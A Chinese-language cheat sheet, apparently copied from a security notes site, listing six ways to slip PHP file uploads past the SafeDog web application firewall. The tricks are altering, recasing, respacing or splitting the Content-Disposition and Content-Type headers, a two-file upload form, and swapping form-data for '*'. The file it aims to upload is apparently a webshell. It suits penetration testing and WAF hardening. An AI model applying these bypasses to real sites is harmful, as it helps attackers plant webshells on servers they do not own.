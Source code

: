 > 原文：[http://book.iwonder.run/安全技术/上传绕过/上传绕过总结.html](http://book.iwonder.run/安全技术/上传绕过/上传绕过总结.html)

## 上传绕过整理

### WAF 绕过

#### 安全狗绕过

1.绕过思路：对文件的内容，数据。数据包进行处理。

```
关键点在这里 Content-Disposition: form-data; name="file"; filename="ian.php"
将 form-data;            修改为~form-data; 
```

2.通过替换大小写来进行绕过

```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
将 Content-Disposition    修改为 content-Disposition
将 form-data            修改为 Form-data
将 Content-Type         修改为 content-Type 
```

3.通过删减空格来进行绕过

```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
将 Content-Disposition: form-data          冒号后面 增加或减少一个空格
将 form-data; name="file";                分号后面 增加或减少一个空格
将 Content-Type: application/octet-stream   冒号后面 增加一个空格 
```

4.通过字符串拼接绕过

```
看 Content-Disposition: form-data; name="file"; filename="yjh3.php"
将 form-data 修改为   f+orm-data
将 from-data 修改为   form-d+ata 
```

5.双文件上传绕过

```
<form action="https://www.xxx.com/xxx.asp(php)" method="post"
name="form1" enctype="multipart/form‐data">
<input name="FileName1" type="FILE" class="tx1" size="40">
<input name="FileName2" type="FILE" class="tx1" size="40">
<input type="submit" name="Submit" value="上传">
</form> 
```

6.HTTP header 属性值绕过

```
Content-Disposition: form-data; name="file"; filename="yjh.php"
我们通过替换 form-data 为*来绕过
Content-Disposition: *; name="file"; filename="yjh.php" 
```
